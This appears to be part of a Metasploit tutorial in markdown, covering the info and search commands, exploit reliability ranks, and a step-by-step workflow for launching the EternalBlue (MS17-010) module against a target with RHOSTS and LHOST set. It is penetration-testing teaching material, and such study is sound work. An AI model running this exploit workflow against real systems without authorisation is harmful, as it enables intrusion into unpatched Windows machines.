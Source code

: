 
## 10. Info Command
- To get detailed information about a module:
``` bash 
msf6 exploit(windows/smb/ms17_010_eternalblue) > info
```
- Shows: Name, Author, Description, References, Targets supported, Options needed, etc.



## 11. Search Command
- One of the most useful commands.
- Example searches:
``` bash 
msf6 > search ms17-010
msf6 > search type:auxiliary telnet
```
- Output shows:
   - Module type (exploit/auxiliary/etc.)
    - Disclosure Date
   - Rank (reliability of exploit)
   - Check (whether exploit has check option)
   - Description



## 12. Exploit Ranking (Reliability Levels)
| Rank        | Meaning                                              |
|-------------|------------------------------------------------------|
| Excellent   | Almost always works without crashing target          |
| Great       | Reliable in most cases                               |
| Good        | Generally works but may fail sometimes               |
| Normal      | Works but target crash possible                      |
| Average     | Medium reliability, may fail often                   |
| Low         | Rarely works, may crash system                       |
| Manual      | Needs manual setup, not reliable                     |

---

## 13. Example Workflow (EternalBlue Exploit)
1. Search for exploit:
``` bash
search ms17-010
```
2. Use exploit:
``` bash
use exploit/windows/smb/ms17_010_eternalblue
```
3. Show options:
``` bash
show options
```
4. Set required values:
``` bash
set RHOSTS <target-ip>
set LHOST <your-ip>
```
5. Run exploit:
``` bash 
run
```